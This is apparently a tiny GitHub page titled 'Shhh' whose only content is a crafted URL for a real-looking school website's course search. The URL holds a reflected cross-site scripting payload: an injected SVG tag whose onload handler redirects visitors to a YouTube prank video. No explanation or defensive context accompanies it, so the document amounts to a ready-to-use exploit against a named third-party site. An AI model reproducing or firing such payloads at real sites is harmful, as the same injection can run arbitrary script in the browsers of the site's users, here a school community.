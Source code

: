 # Shhh
https://rotorualakes.schoolpoint.co.nz/courses/search?s= <svg/onload='+/"/+/onmouseover= location.replace('https://youtu.be/dQw4w9WgXcQ?autoplay=1');>
